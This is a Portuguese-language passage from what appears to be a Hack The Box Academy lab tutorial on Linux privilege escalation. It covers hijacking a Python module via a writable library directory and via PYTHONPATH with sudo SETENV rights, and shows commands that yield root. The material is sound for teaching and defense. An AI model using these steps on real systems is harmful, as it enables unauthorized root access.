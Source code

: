 Para realizar o ataque, devemos criar um arquivo chamado `psutil.py` no diretório especificado. É crucial que o módulo tenha o mesmo nome e a mesma função, com o número correto de argumentos, como a função que queremos sequestrar. Sem essas condições, o ataque não funcionará. Após criar o arquivo com o script de sequestro, o sistema estará preparado para a exploração.

Vamos executar o script `mem_status.py` novamente como `sudo`, como no exemplo anterior.

#### Escalonamento de privilégios por meio do sequestro do caminho da biblioteca Python
```shell-session
htb-student@lpenix:~$ sudo /usr/bin/python3 mem_status.py

uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
  File "mem_status.py", line 4, in <module>
    available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total
AttributeError: 'NoneType' object has no attribute 'available' 
```

Como podemos ver na saída, obtivemos execução `root` com sucesso, sequestrando o caminho do módulo por meio de uma configuração incorreta nas permissões do diretório `/usr/lib/python3.8`.

## Variável de ambiente PYTHONPATH

Na seção anterior, discutimos o termo **PYTHONPATH**, mas não detalhamos seu uso e importância. **PYTHONPATH** é uma variável de ambiente que especifica os diretórios onde o Python procura módulos para importar.

Manipular essa variável permite redirecionar a pesquisa de módulos para locais definidos pelo usuário. É crucial verificar se temos permissões para definir variáveis de ambiente para o binário Python, o que pode ser feito checando nossas permissões `sudo`.

#### Verificando permissões sudo
```shell-session
htb-student@lpenix:~$ sudo -l 

Matching Defaults entries for htb-student on ACADEMY-LPENIX:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ACADEMY-LPENIX:
    (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
```

Como mostrado no exemplo, temos permissão para executar `/usr/bin/python3` com privilégios de `sudo`, permitindo-nos definir variáveis de ambiente para este binário. Com o `SETENV` habilitado, não há restrições na definição de variáveis de ambiente antes de chamar o binário. Isso nos permite definir variáveis de ambiente no contexto do programa em execução. Vamos aplicar isso usando o script `psutil.py` da seção anterior.

#### Escalonamento de privilégios usando a variável de ambiente PYTHONPATH

```shell-session
htb-student@lpenix:~$ sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py

uid=0(root) gid=0(root) groups=0(root)
...SNIP...
```
